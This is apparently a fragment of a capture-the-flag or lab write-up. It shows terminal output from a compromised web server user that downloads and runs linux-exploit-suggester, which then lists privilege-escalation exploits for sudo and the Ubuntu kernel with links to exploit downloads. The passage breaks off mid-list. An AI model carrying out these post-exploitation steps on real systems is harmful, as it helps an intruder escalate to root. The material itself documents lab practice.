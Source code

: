 ```sh
    50K .......... .......... .......... .....                100% 11.7M=0.01s

2021-04-27 00:19:57 (6.14 MB/s) - 'les.sh' saved [87559/87559]

www-data@petshop:/tmp$ chmod +x les.sh
chmod +x les.sh
www-data@petshop:/tmp$ ./les.sh
./les.sh

Available information:

Kernel version: 4.15.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 18.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

76 kernel space exploits
48 user space exploits

Possible Exploits:

cat: write error: Broken pipe
cat: write error: Broken pipe
cat: write error: Broken pipe
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2018-18955] subuid_shell

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1712
   Exposure: probable
   Tags: [ ubuntu=18.04 ]{kernel:4.15.0-20-generic},fedora=28{kernel:4.16.3-301.fc28}
   Download URL: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/45886.zip
   Comments: CONFIG_USER_NS needs to be enabled

[+] [CVE-2019-7304] dirty_sock

   Details: https://initblog.com/2019/dirty-sock/
   Exposure: less probable
   Tags: ubuntu=18.10,mint=19
   Download URL: https://github.com/initstring/dirty_sock/archive/master.zip
   Comments: Distros use own versioning scheme. Manual verification needed.

[+] [CVE-2019-18634] sudo pwfeedback

```